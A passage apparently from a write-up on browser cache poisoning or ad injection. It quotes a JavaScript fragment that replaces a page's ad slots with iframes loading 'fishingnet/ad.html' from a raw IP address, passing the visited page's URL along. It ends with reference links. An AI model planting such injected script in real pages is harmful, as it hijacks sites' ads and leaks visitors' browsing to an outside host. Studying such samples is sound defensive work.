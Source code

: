 				if(myads[i].id.match(/300_250/i) == "300_250")
				{
					iframe.src="http://122.114.61.38/fishingnet/ad.html?ad_width=300&ad_height=250&ad_src=baidu_c&ad_loc="+ad_loc+"&ad_from="+murl;
                			iframe.style.width = "300px";
                			iframe.style.height = "250px";
					content="add";

				}
				if(myads[i].id.match(/728_90/i) == "728_90")
				{
					iframe.src="http://122.114.61.38/fishingnet/ad.html?ad_width=728&ad_height=90&ad_src=baidu_c&ad_loc="+ad_loc+"&ad_from="+murl;
                			iframe.style.width = "728px";
                			iframe.style.height = "90px";
					content="add";
				}
				if(myads[i].id.match(/336_280/i) == "336_280")
				{
					iframe.src="http://122.114.61.38/fishingnet/ad.html?ad_width=336&ad_height=280&ad_src=baidu_c&ad_loc="+ad_loc+"&ad_from="+murl;
                			iframe.style.width = "336px";
                			iframe.style.height = "280px";
					content="add";
				}
				if(myads[i].id.match(/960_90/i) == "960_90")
				{
					iframe.src="http://122.114.61.38/fishingnet/ad.html?ad_width=960&ad_height=90&ad_src=baidu_c&ad_loc="+ad_loc+"&ad_from="+murl;
                			iframe.style.width = "960px";
                			iframe.style.height = "90px";
					content="add";
				}
				if(myads[i].id.match(/1000_90/i) == "1000_90")
				{
					iframe.src="http://122.114.61.38/fishingnet/ad.html?ad_width=1000&ad_height=90&ad_src=baidu_c&ad_loc="+ad_loc+"&ad_from="+murl;
                			iframe.style.width = "1000px";
                			iframe.style.height = "90px";
					content="add";
				}
				if(myads[i].id.match(/200_200/i) == "200_200")
				{
					iframe.src="http://122.114.61.38/fishingnet/ad.html?ad_width=200&ad_height=200&ad_src=baidu_c&ad_loc="+ad_loc+"&ad_from="+murl;
                			iframe.style.width = "200px";
                			iframe.style.height = "2000px";
					content="add";
				}
				if(myads[i].id.match(/250_250/i) == "250_250")
				{
					iframe.src="http://122.114.61.38/fishingnet/ad.html?ad_width=250&ad_height=250&ad_src=baidu_c&ad_loc="+ad_loc+"&ad_from="+murl;
                			iframe.style.width = "250px";
                			iframe.style.height = "250px";
					content="add";
				}
				if(myads[i].id.match(/250_120/i) == "250_120")
				{
					iframe.src="http://122.114.61.38/fishingnet/ad.html?ad_width=250&ad_height=120&ad_src=baidu_c&ad_loc="+ad_loc+"&ad_from="+murl;
                			iframe.style.width = "250px";
                			iframe.style.height = "120px";
					content="add";

[githubio]: http://pannzh.github.io
[Browser-Cache-Poisoning]: http://www.eecs.berkeley.edu/~yahel/papers/Browser-Cache-Poisoning.Song.Spring10.attack-project.pdf
